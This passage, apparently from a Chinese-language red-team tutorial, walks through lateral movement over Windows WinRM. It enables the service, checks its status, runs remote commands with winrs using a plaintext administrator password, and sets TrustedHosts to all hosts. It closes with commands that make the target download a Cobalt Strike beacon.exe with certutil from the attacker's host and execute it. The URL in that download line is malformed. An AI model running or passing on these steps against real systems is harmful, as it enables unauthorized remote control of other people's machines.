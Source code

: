 ### [](#%E5%BC%80%E5%90%AF%E6%94%BB%E5%87%BB "开启攻击")开启攻击[](#%E5%BC%80%E5%90%AF%E6%94%BB%E5%87%BB)

1.  攻击机开启：

```css
winrm quickconfig -q
```

可通过`cs内置端口`扫描`5985`来判断目标主机是否开启WinRM

[![](assets/1702372940-ac0ae149e388cfaa77c35e5c2e2d9ee2.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/45.png)

使用`ps`命令查看开启情况

```bash
powershell Get-WmiObject -Class win32_service | Where-Object {$_.name -like "WinRM"}
```

**执行命令**

```bash
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ whoami
```

> 远程连接时可能会遇到以下错误

```plain
错误编号：-2133108526
Winrs error:WinRM 客户端无法处理该请求。可以在下列条件下将默认身份验证与 IP 地址结合使用: 传输为 HTTPS 或目标位于 TrustedHosts 列表中，并且提供了显式凭据。使用 winrm.cmd 配置 TrustedHosts。请注意，TrustedHosts 列表中的计算机可能未经过身份验证。有关如何设置 TrustedHosts 的详细信息，请运行以下命令: winrm help config。
```

在攻击机上执行下面这条命令，设置为信任所有主机，再去连接即可

```bash
winrm set winrm/config/Client @{TrustedHosts="*"}
```

上线CS:

```plain
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1beacon.exe c:/beacon.exe"
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ "cmd.exe /c c:/beacon.exe"
```
